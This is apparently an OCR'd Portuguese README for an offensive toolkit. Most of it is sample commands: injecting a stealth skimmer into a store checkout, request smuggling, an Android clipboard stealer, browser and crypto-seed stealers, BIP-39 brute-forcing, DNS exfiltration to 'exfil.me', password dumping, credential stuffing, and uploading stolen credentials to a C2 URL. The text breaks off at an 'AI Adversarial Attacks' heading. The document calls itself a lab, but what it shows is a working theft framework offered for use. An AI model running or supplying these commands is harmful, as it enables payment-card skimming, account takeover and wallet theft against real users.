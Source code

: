 
## 🛠️ Instalação & Requisitos
- Python 3.9+ (venv ou Pipenv)  
- Node.js (para payloads WebSocket / JWT)  
- Ferramentas nativas: `curl`, `openssl`, `dig`  
- Permissões elevadas (LSASS dumpers, memory scrapers)  
- Ambiente isolado (VM, container, rede de laboratório)  

```bash
git clone https://github.com/SeuRepo/Security-Stuffers-Lab.git
cd Security-Stuffers-Lab
pip install -r requirements.txt
🚀 Como Usar
Cada módulo possui um README.md com exemplos detalhados. Abaixo, uma amostra de comandos:

1. Stealers Attack Framework
bash

Copiar
# Injetar skimmer stealth em checkout web
python web-skimmers/exfiltration/stealth-uploader.py \
  --target https://loja-alvo.com/checkout \
  --payload web-skimmers/skimmer_webapp/loader.js

# Simular Request Smuggling TE.CL
python request-smuggling/smuggler/te-cl-smuggle.py \
  --proxy-front nginx \
  --proxy-back apache \
  --host alvo.com

# Capturar clipboard em Android
adb install mobile-stealers/android-clipboard-monitor.apk
python mobile-stealers/android-clipboard-monitor/run.py
2. Crypto Attack Framework
bash

Copiar
# Stealer de browser + seeds
python crypto-attacks/stealers/Chimera/stealer.py

# Brute-force de BIP-39
python crypto-attacks/bruteforce/EnigmaCracker/bruteforce.py \
  --missing-word-index 12

# Exfiltração stealth via DNS
python crypto-attacks/exfiltration/stealth-clip-exfiltrator.py \
  --c2 dns://exfil.me
3. Credential Attack Framework
bash

Copiar
# Dump de senhas do navegador
python credentials/dumpers/browser-dumper.py \
  --output creds.json

# Credential Stuffing em portal
python credentials/stuffers/credential_stuffer.py \
  --combo creds.json --threads 50

# Enviar credenciais roubadas para C2
python credentials/exfiltration/stealth-uploader.py \
  --file valid-creds.txt --url https://c2.server/upload
4. AI Adversarial Attacks
bash
```